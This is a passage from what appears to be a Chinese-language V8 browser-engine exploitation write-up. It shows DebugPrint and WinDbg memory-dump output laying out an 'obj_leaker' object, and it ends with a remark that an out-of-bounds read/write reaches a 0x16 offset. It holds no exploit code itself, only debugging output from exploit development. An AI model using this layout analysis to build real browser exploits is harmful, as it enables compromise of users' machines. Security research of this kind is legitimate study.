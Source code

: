 ```shell
 - transitions #1: 0x009d082094a1 <TransitionArray[4]>Transition array #1:
     0x009d08042eb9 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x009d082418b9 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x009d08208dcd <JSArray[0]>
 - constructor: 0x009d08208ca1 <JSFunction Array (sfi = 0000009D08188E41)>
 - dependent code: 0x009d080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

DebugPrint: 0000009D080881B9: [JS_OBJECT_TYPE]
 - map: 0x009d08244ba9 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x009d08200f99 <Object map = 0000009D082401C1>
 - elements: 0x009d080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x009d080406e9 <FixedArray[0]> {
    #a: 24582 (const data field 0)
    #b: 0x009d0808811d <JSArray[1]> (const data field 1)
 }
0000009D08244BA9: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 20
 - inobject properties: 2
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x009d08244b81 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x009d08180451 <Cell value= 1>
 - instance descriptors (own) #2: 0x009d080881e9 <DescriptorArray[2]>
 - prototype: 0x009d08200f99 <Object map = 0000009D082401C1>
 - constructor: 0x009d08200fb5 <JSFunction Object (sfi = 0000009D0818245D)>
 - dependent code: 0x009d080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0

0:000> dd 0x009d0808810d-1 L30
0000009d`0808810c  08040a3d 00000002 9999999a 3ff19999
0000009d`0808811c  08241891 080406e9 0808810d 00000002
0000009d`0808812c  08241189 080406e9 080406e9 00000010
0000009d`0808813c  00000000 00000000 00000000 00000003
0000009d`0808814c  00000000 00000000 00000000 00000000
0000009d`0808815c  08040489 00000020 00000000 00000000
0000009d`0808816c  00000000 00000000 08240671 080406e9
0000009d`0808817c  0808815d 0808812d 00000000 00000000
0000009d`0808818c  00000010 00000000 00000002 00000000
0000009d`0808819c  00000007 0000009d 0808815d 00000000
0000009d`080881ac  00000000 00000000 00000000 08244ba9	// map
0000009d`080881bc  080406e9 080406e9 0000c00c 0808811d	// elements properties obj_leaker.a obj_leaker.b
```

相对偏移为`0x16`，这一步只需要出动我们的越界读写就可以了。
